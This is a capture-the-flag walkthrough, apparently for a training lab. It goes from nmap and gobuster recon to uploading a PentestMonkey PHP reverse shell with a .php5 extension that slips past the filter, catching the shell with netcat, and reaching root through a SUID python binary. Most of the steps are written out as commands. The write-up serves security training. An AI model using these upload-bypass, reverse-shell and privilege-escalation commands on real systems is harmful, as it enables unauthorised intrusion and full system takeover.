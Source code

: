 # Steps to Capture the Flag

## 1. Initial Reconnaissance
- **Scanned the target IP address with Nmap to identify open ports.**  
  - Command: `nmap <ip_address>`  
  - Result: Ports **22 (SSH)** and **80 (HTTP)** were open.
- **Accessed** `http://<ip_address>` in a web browser to confirm a web application was running.
- **Used Gobuster to brute-force directories on the web server.**  
  - Command:  
    ```bash
    gobuster dir -u http://10.10.138.176 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
    ```  
  - Result: Discovered **uploads**, **css**, **js**, and **panel** directories.
- **Explored** `http://<ip>/css` and found `home.css` and `panel.css`, confirming a panel directory.
- **Navigated to** `http://<ip>/panel` and found an upload functionality.
- **Uploaded a random JPG file** to determine the upload directory.  
  - Result: The file was uploaded to the `/uploads` directory.

---

## 2. Gaining Initial Access
- **Downloaded a PHP reverse shell script from PentestMonkey's GitHub.**  
  - Command:  
    ```bash
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
    ```
- **Edited** `php-reverse-shell.php` to set the attacking machine's IP address (tun0) and listening port (1234).
- **Started a Netcat listener** on the attacking machine.  
  - Command: `nc -lvnp 1234`
- **Attempted to upload the modified PHP reverse shell** with various extensions:  
  - `.php`: Failed.  
  - `.php2`: Successful upload, but no shell.  
  - `.php3`: Successful upload, but no shell.  
  - `.php4`: Successful upload, but no shell.  
  - `.php5`: **Successful upload, reverse shell obtained** when accessed in the browser.

---

## 3. Post-Exploitation
- Checked the current user.  
  - Command: `whoami`  
  - Result: `www-data`
- Checked the current working directory.  
  - Command: `pwd`
- Listed files in the current directory.  
  - Command: `ls`
- Upgraded to an interactive TTY shell.  
  - Command:  
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- Changed to the current user's home directory.  
  - Command: `cd ~`
- Listed files in the home directory.  
  - Command: `ls`  
  - Result: Found the **first user flag**.

---

## 4. Privilege Escalation
- Searched for SUID binaries owned by root.  
  - Command:  
    ```bash
    find / -user root -perm /4000 2>/dev/null
    ```  
  - Result: `/usr/bin/python` identified as a suspicious SUID binary.
- Exploited the SUID-enabled Python binary to gain root access (from GTFOBins).  
  - Command:  
    ```bash
    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
- Verified root privileges.  
  - Command: `whoami`  
  - Result: `root`
- Listed files in the root directory.  
  - Command: `ls`  
  - Result: Found the **root flag**.
